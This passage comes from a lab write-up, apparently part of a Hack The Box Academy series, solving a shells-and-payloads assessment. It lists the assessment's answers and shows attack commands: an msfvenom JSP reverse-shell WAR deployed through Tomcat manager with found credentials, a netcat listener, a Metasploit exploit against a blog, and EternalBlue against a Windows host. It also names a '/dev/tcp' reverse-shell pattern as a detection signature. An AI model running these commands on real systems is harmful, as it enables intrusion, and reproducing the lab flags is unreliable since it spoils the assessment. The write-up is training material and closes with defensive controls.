In the network graph we are implied that 'Host-01' has port 8080 service
enabled. Lets try to access it from the browser:


*_Figure 30.1 — Lab execution and output verification (Page 30)_*


### Lets open it

`http://172.16.1.11:8080/`


We get to tomcat service  - version 10.0.11.

Looking again at the 'Foothold' RDP desktop – we have a 'access-creds.txt' file

Lets open it:


*_Figure 31.1 — Lab execution and output verification (Page 31)_*


*_Figure 31.2 — Lab execution and output verification (Page 31)_*


*_Figure 31.3 — Lab execution and output verification (Page 31)_*


We have credentials for tomcat management – 'tomcat:Tomcatadm'.
Back to the browser – lets to go
`http://172.16.1.11:8080/manager/html`


We are requested to enter credentials, lets enter the credentials we obtained:

Here is the tomcat management pages, where we can view the applications
that are running on the tomcat web.
And more importantly – we can deploy one of our own, in 'WAR' format:


*_Figure 32.1 — Lab execution and output verification (Page 32)_*


*_Figure 32.2 — Lab execution and output verification (Page 32)_*


### 'msfvenom' tool, and the command

#### Technical Methodology & Exploit Execution:

msfvenom -p java/jsp_shell_reverse_tcp LHOST=`<attacker-IP>`
LPORT=<listening port> -f war > backup.war
where in our case attacker IP will be the foothold IP - '172.16.1.5', and the
listening port will be 4444:


Now lets netcat listner in the foothold, on port 4444:
```bash
nc -lnvp 4444
```
*after we confirm with 'which nc' that nc is indeed installed on the 'foothold'
machine. *


*_Figure 33.1 — Lab execution and output verification (Page 33)_*


*_Figure 33.2 — Lab execution and output verification (Page 33)_*


*_Figure 33.3 — Lab execution and output verification (Page 33)_*


### Now that the listener in active, lets deploy our payload

Now that the listener in active, lets deploy our payload:

And here it is:

Lets enter it (by clicking the link):

Blank page.
But on the 'Foothold':

We got shell! (to cmd).
Lets enter in it:
dir C:\Shares


*_Figure 34.1 — Lab execution and output verification (Page 34)_*


*_Figure 34.2 — Lab execution and output verification (Page 34)_*


*_Figure 34.3 — Lab execution and output verification (Page 34)_*


*_Figure 34.4 — Lab execution and output verification (Page 34)_*


*_Figure 34.5 — Lab execution and output verification (Page 34)_*


### '/etc/hosts/ in 'foothold'

> **Lab Question (Page 35)**: What distribution of Linux is running on Host-2? (Format: distro name, all lower case)
>
> **Flag / Answer**: `ubuntu`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for Host-2 we are not provided with the IP but the sub-domain
'blog.inlanefreight.local'. first lets find the IP .
Pinging the domain from the pwnbox will not reach the machine, but pinging it
from 'foothold' will.
*The reason for that, is the domain and IP are linked to each other in
'/etc/hosts/ in 'foothold':

'Host-2' IP is 172.16.1.12. we will proceed communicate 'Host-2' from the
pwnbox using the IP . *
We will scan the target with
```bash
nmap -sV 172.16.1.12
```


We get the result (though we will enter it as lower-case).


*_Figure 35.1 — Lab execution and output verification (Page 35)_*


*_Figure 35.2 — Lab execution and output verification (Page 35)_*


### Attempting to enter it directly

> **Lab Question (Page 36)**: What language is the shell written in that gets uploaded when using the 50064.rb exploit?
>
> **Flag / Answer**: `php`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

the nmap scan from the previous question revealed http service
active, lets try it.
Attempting to enter it directly:

Wont give much.

Lets link the 'Host-2' IP with the subdomain 'blog.inlanefreight.local' in the
pwnbox's '/etc/hosts':
```bash
sudo nano /etc/hosts
```
and we add '172.16.1.12 blog.inlanefreight.local'

Now that the subdomain is linked to the IP , lets enter the subdomain in the
browser:
`http://blog.inlanefreight.local/`

we get to this blog of 'Slade Wilson':


*_Figure 36.1 — Lab execution and output verification (Page 36)_*


*_Figure 36.2 — Lab execution and output verification (Page 36)_*


> **Lab Question (Page 37)**: Exploit the blog site and establish a shell session with the target OS. Submit the contents of /customscripts/flag.txt
>
> **Flag / Answer**: `B1nD_Shells_r_cool`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets enter the exploit mentioned from the previous question:

This is a Metasploit module.


*_Figure 37.1 — Lab execution and output verification (Page 37)_*


*_Figure 37.2 — Lab execution and output verification (Page 37)_*


*_Figure 37.3 — Lab execution and output verification (Page 37)_*


### Lets download it

Lets download it:

As 'Lightweight.rb'.
Now lets install the module on the pwnbox's Metasploit:
mkdir -p ~/.msf4/modules/auxiliary/custom/
cp Lightweight.rb ~/.msf4/modules/auxiliary/custom/


Now lets start Metasploit:
```bash
msfconsole
```


In it:
reload_all
search Lightweight
we reload the installed modules, and look for our newly installed module:


*_Figure 38.1 — Lab execution and output verification (Page 38)_*


*_Figure 38.2 — Lab execution and output verification (Page 38)_*


*_Figure 38.3 — Lab execution and output verification (Page 38)_*


*_Figure 38.4 — Lab execution and output verification (Page 38)_*


### Our module is at index 1

Our module is at index 1:
```bash
use 1
```


Lets enter
options
to see what we need:


We need to set RHOSTS, and credentials.


*_Figure 39.1 — Lab execution and output verification (Page 39)_*


*_Figure 39.2 — Lab execution and output verification (Page 39)_*


*_Figure 39.3 — Lab execution and output verification (Page 39)_*


### 'foothold'

Lets start with the RHOSTS – we will insert the blog subdomain:
```bash
set RHOSTS blog.inlanefreight.local
```


We also need credentials for login - Looking back at the credentials file found in
'foothold':

We have the blog credentials 'admin:admin123!@#':
```bash
set USERNAME admin
set PASSWORD admin123!@#
```

When all the settings are set – run:
```bash
exploit
```


And we have a shell!
All we have to do is to cat the flag from the specified location:


*_Figure 40.1 — Lab execution and output verification (Page 40)_*


*_Figure 40.2 — Lab execution and output verification (Page 40)_*


*_Figure 40.3 — Lab execution and output verification (Page 40)_*


*_Figure 40.4 — Lab execution and output verification (Page 40)_*


> **Lab Question (Page 41)**: What is the hostname of Host-3?
>
> **Flag / Answer**: `SHELLS-WINBLUE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets run nmap on 'Host-3' (which they tell us its '172.16.1.13'):
```bash
nmap 172.16.1.13
```


We have http, and smb.
Lets try the same smb scan used to obtain 'Host-1's hostname:
```bash
nmap -p 445 --script smb-os-discovery 172.16.1.13
```


Here it is.


*_Figure 41.1 — Lab execution and output verification (Page 41)_*


*_Figure 41.2 — Lab execution and output verification (Page 41)_*


### First lets determine the SMB version on the 'Host-3'

> **Lab Question (Page 42)**: Exploit and gain a shell session with Host-3. Then submit the contents of C:\Users\Administrator\Desktop\Skills-flag.txt
>
> **Flag / Answer**: `One-H0st-Down!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

as we established 'Host-3' is running SMB, lets check if we can use the
same 'MS17-010 – Eternal Blue' from 'Infiltrating Windows' section.
First lets determine the SMB version on the 'Host-3':
```bash
nmap -p 445 --script smb-protocols -sV 172.16.1.13
```


good – SMBv1.
Now lets open Metasploit in 'foothold' (the reverse shell to the pwnbox wont
work due to the current pivoting configuration 'host-3' wont reach the pwnbox,
only the opposite):
```bash
msfconsole
```
and determine if the host is vulnerable to the 'Eternal Blue':
```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 172.16.1.13
```
run


*_Figure 42.1 — Lab execution and output verification (Page 42)_*


*_Figure 42.2 — Lab execution and output verification (Page 42)_*


### Host is likely vulnerable. Lets proceed with the attack

```bash
Host is likely vulnerable. Lets proceed with the attack:
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 172.16.1.13
set LHOST 172.16.1.5
exploit
```
where the LHOST is the 'footprint' IP:

We have a shell! Lets get the flag from it:
```bash
cat C:/Users/Administrator/Desktop/Skills-flag.txt
```


*_Figure 43.1 — Lab execution and output verification (Page 43)_*


*_Figure 43.2 — Lab execution and output verification (Page 43)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1059, T1071, T1027` |
| **Common Weakness Enumerations** | `CWE-78, CWE-94` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1059`](https://attack.mitre.org/techniques/T1059/) | **Command and Scripting Interpreter** | `Execution` | Reverse shells via Bash, PowerShell, Python, PHP, Perl, and Ruby |
| [`T1071`](https://attack.mitre.org/techniques/T1071/) | **Application Layer Protocol** | `Command and Control` | Encrypted reverse shells over TLS (Socat, OpenSSL) |
| [`T1027`](https://attack.mitre.org/techniques/T1027/) | **Obfuscated Files or Information** | `Defense Evasion` | Base64 encoded payloads and living-off-the-land reverse shell launchers |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-78`: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)
- [`CWE-94`: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Monitor process lineage for interactive shells (`sh`, `bash`, `cmd`, `powershell`) whose parent process is a non-shell daemon or network worker.
- Detect unencrypted interactive terminal sequences (e.g., `sh -i >& /dev/tcp/...` or `whoami` strings) in raw network stream inspection.
- Enforce egress network filtering permitting only required outbound business ports, blocking non-standard outbound TCP/UDP connections.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Shells & Payloads](https://academy.hackthebox.com/module/115) — *Official Hack The Box curriculum track*
- [RevShells: Interactive Reverse Shell Generator](https://www.revshells.com/) — *Exhaustive repository of multi-language reverse shell one-liners*
- [PayloadsAllTheThings: Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) — *Technical reverse and bind shell tradecraft*
- [Rapid7 MSFvenom Payload Generation Guide](https://docs.rapid7.com/metasploit/msfvenom/) — *Metasploit payload compiler reference*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-15-vulnerability-assessment/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 15: Vulnerability Assessment Methodologies & Scanners</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 16 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-17-sql-injection-fundamentals/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 17: SQL Injection Fundamentals & Exploitation</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
